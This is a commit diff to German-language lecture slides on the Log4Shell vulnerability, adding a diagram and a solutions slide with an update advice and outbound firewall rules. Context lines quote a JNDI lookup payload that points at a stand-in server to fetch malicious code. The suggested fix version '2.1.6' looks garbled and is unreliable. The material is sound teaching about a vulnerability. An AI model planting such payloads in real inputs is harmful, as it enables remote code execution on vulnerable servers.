

Before and after one commit to mauriceKalevra/Log4J-zu-Log4Shell, LaTeX slides (main.tex): page 11 of 15 before the commit and pages 11 and 14 of 15 after it, the two joined at a grey line, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
added solutions

```diff
--- a/main.tex
+++ b/main.tex
@@ -159,7 +159,7 @@ $\Rightarrow$ \textbf{\$\{jndi:ldap//:myserver.de/schadcode\}}
 
 \begin{frame}{Log4Shell Funktionsweiße}
 \begin{center}
-\includegraphics[scale=0.40]{log4shellschaubild.png}
+\includegraphics[scale=0.35]{log4s.png}
 \end{center}
 \end{frame}
 \begin{frame}
@@ -175,6 +175,12 @@ $\Rightarrow$ \textbf{\$\{jndi:ldap//:myserver.de/schadcode\}}
 
 \end{frame}
 \begin{frame}{Lösungen}
+\begin{itemize}
+ \item Log4J Updaten auf 2.1.6
+ \item Firewall Regeln entsprechend auslegen\\
+ - Output-Chain
+\end{itemize}
+
 
 \end{frame}
 \begin{frame}{Fazit und Ausblick}
```
Also changed, not shown: log4s.png (added).
